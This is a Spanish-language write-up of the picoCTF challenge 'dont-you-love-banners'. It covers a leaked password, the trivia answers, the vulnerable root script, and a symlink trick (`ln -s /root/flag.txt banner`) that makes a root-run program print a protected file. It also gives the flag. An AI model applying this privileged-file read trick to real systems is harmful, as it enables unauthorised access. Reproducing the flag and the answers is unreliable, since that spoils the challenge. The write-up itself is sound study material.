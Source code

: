 
## Reto
dont-you-love-banners

## Descripcion
Can you abuse the banner?The server has been leaking some crucial information on `tethys.picoctf.net 53135`. Use the leaked information to get to the server.To connect to the running application use `nc tethys.picoctf.net 63856`. From the above information abuse the machine and find the flag in the /root directory.

## Solucion
- nos dan 2 conexiones para ver
- si tratamos de entrar a la segunda nos aparece un "welcome" y nos pregunta por una contraseña
- si entramos a la segunda nos da la contraseña "My_Passw@rd_@1234"
- cuando la ponemos en la segunda conexion ahora nos pregunta por "la mejor conferencia de cyberseguridad en el mundo?"
  una busqueda rapida en google nos da 3 opciones: black hat, def con y rsa conference
- intentamos estas y la respuesta era "def con"
- ahora nos pregunta por el primer hacker que hizo phreaking(llamadas gratis por telefono), igualmente una busqueda rapida nos dice que fue "John Draper"
- cuando contestamos todo nos deja entrar al sistema de player@challenge
- si hacemos un ls vemos 2 cosas: el baner de "welcome" y un texto
- si abrimos el texto nos dice que miremos mas profundo
- primero intente ir a `cd /` y hacer un grep por pico pero se travo la conexion y tuve que volver a intentarlo
- ahora mejor reviso la raiz de usuario con `ls -la /root` y veo que hay 2 cosas importantes: **flag.txt y script.py**
- desaforyunadamente si tratamos de abrir flag.txt no tenemos los permisos necesarios para hacerlo y un sudo tampodo funciona
- pero si podemos abrir script.py y obtenemos esto
```
player@challenge:~$ cat /root/script.py  
cat /root/script.py  
  
import os  
import pty  
  
incorrect_ans_reply = "Lol, good try, try again and good luck\n"  
  
if __name__ == "__main__":  
try:  
with open("/home/player/banner", "r") as f:  
print(f.read())  
except:  
print("*********************************************")  
print("***************DEFAULT BANNER****************")  
print("*Please supply banner in /home/player/banner*")  
print("*********************************************")  
  
try:  
request = input("what is the password? \n").upper()  
while request:  
if request == 'MY_PASSW@RD_@1234':  
text = input("What is the top cyber security conference in the world?\n").upper()  
if text == 'DEFCON' or text == 'DEF CON':  
output = input(  
"the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()  
if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':  
scmd = 'su - player'  
pty.spawn(scmd.split(' '))  
  
else:  
print(incorrect_ans_reply)  
else:  
print(incorrect_ans_reply)  
else:  
print(incorrect_ans_reply)  
break  
  
except:  
KeyboardInterrupt
```
- vemos que el baner de "welcome" con el que empieza la conexion mo esta imprezo en el programa, si no que agarra el texto de "banner" en la pagina principal y lo imprime
- podemos abusar esto cambiando el contenido de "banner" pero como hacemos para que lea "flag.txt" desde /root
- usaremos un symlink que es solo un acceso directo a otro archivo
- primero borro el banner original con `rm banner` y ahora creo un acceso directo a flag.txt y lo llamo "banner" para que el programa lo lea como si fuera el original
```
ln -s /root/flag.txt banner
```
- ahora salgo de la conexion y vuelvo a entrar y ahora en ves de decir "welcome" me da la bandera: **picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_68ca8b23}**
![[Pasted image 20251005165722.png]]


## Notas

## Referencias
[picoCTF 2024: dont-you-love-banners | by Altair | Medium](https://medium.com/@niceselol/picoctf-2024-dont-you-love-banners-40b8c1fc5050)